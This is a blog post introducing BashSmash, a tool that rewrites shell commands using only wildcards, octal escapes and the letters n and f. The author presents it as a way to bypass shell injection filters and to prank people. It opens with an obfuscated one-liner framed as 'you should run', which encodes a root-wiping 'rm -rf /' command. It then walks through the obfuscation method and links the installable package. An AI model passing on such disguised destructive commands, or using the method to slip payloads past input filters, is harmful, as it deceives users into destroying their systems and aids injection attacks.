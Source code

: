 ```yaml
---
layout: post
title:  "BashSmash"
description: "A tool for driving people crazy"
date:   2019-06-26 15:48:00
categories: random
---
```


I was watching this great [Liveoverflow video](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwiOhNze_4fjAhUiB50JHR12D8AQwqsBMAB6BAgJEAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D6D1LnMj0Yt0&usg=AOvVaw2nOgft0SoPZujc9js9Vxhx) yesterday, and really liked the idea of building escape sequences with strings. So, I built a new tool, [BashSmash](https://pypi.org/project/bashsmash/). 

## The goal
The goal of BashSmash is very similar to that described in Liveoverflow's video. Do anything in bash without using any letters or numbers except `n` and `f` (he used `i` instead of `f`). This can both bypass shell injection filters, and generally mess with people.

Saying "Hey, you should run:"
```bash
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Instead of:
```bash
sudo rm -rf --no-preserve--root /
```

Can usually get you much farther with your goal of world domination.

## How does this work?
BashSmash abuses bash wildcards, octal escape codes, and a large number of backslashes to obfuscate any valid shell script.

Firstly, it is important to know that `printf` will gladly convert any octal to a string, and bash's eval (`$()`) function will gladly run any string as a bash script. (See where this is going?)

Because of these tools, we know that the following is possible:
```bash
# Printf-ing a string will print the string
printf "hello" # This will return hello

# Printf-ing a sequence of octal escapes will also print a string
printf "\150\145\154\154\157" # This will also return hello

# Eval-ing a printf of an octal escape sequence will build a string, then run it in bash
$(printf "\150\145\154\154\157") # This will warn that "hello" is not a valid command
```

This has some issues. You may have noticed that letters are required ti spell `printf`, and numbers are needed for the octal escapes. Let's start by fixing the letters problem.

Bash allows wildcards. You may have run something like `cp ./foo/* ./bar` before. This uses the wildcard `*`. The `*` wildcard will be auto-evaluated to expand into a list of all files in it's place.
```bash
# Let's assume that ./foo contains the following files:
#   john.txt
#   carl.txt

# Running the following:
cat ./foo/*

# Will automatically expand to:
cat ./foo/john.txt ./foo/carl.txt

# Now, lets assume that ./baz contains a single file:
#   KillHumans.sh

# Running:
./baz/*

# Will execute KillHumans.sh
```

Neat, Right? To take this a step further, you can use the second wildcard, `?`, to specify the number of characters you want to look for. Running `./baz/?` will not run `KillHumans.sh` because `KillHumans.sh` is not 1 char long. But `./baz/?????????????` will. This is messy, but it works.

Now, back to our problem with `printf`. `printf` is located in `/usr/bin/printf` on all *nix systems. This is handy as, firstly, this can be wildcarded, and secondly, the path contains 2 `n`'s and an `f` (the two letters we are allowed to use). So, instead of calling `printf`, we can call `/???/??n/???n?f`. 
```bash
# Now, we can call:
/???/??n/???n?f "\150\145\154\154\157"

# To print "hello". Or:
$(/???/??n/???n?f "\150\145\154\154\157")

# To run "hello" as a program (still gives an error)
```

Now, our problem with letters is solved, but we are still using numbers.

Bash allows anyone to define functions. These functions can take arguments and call other programs. So, what if we have a function that can take any number of arguments, and return the number of arguments as a number? This will be helpful because an empty argument can be added with `""` (not a number or letter), and this will replace the need for numbers in our code. On a side note, bash allows `__` as a function name, so that's cool. 

```bash
# Our function needs to do the following:
#   - Take any number of arguments
#   - Turn the number to a string
#   - Print the string so it can be evaluated back to a number with $()

# First, we start with an empty function, named __ (two underscores)
__() {};

# Easy. Next, we use a built-in feature of bash to count the number of arguments passed
__() { ${#} };

# With the ${#} feature in bash, giving this function 3 arguments will return a 3
# Next, we need to print this number to stdout 
# This can be done with printf
# We still do not want to use any letters or numbers, so we must use our string of wildcards
/???/??n/???n?f

# So, we just plug this into our function
__() {/???/??n/???n?f ${#}};

# Now, calling our function with three arguments
__ "" "" ""
# Will print:
3
```

Let's put this together. First, we must tell bash that our `__` function exists. 
``` bash
# We do this by starting our new script with: 
__() {/???/??n/???n?f ${#}};

# Next, an eval to actually run our constructed string. Together it now looks like this:
__() {/???/??n/???n?f ${#}); $(/???/??n/???n?f )

# Now, we construct a string using the __ function over and over again. "echo hello" looks like:
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Thats it!

## How do I use the script?
To use BashSmash, simply make sure both `python3.7` and `python3-pip` are installed on your computer, then run:
```
pip3 install bashsmash
```

For more info, see the [PYPI Page](https://pypi.org/project/bashsmash/).

## Why do you have a desire to break things with python
Because it is fun. Give it a try! 

I will have a post here at some point about the weird things I do in my python code and why I do them.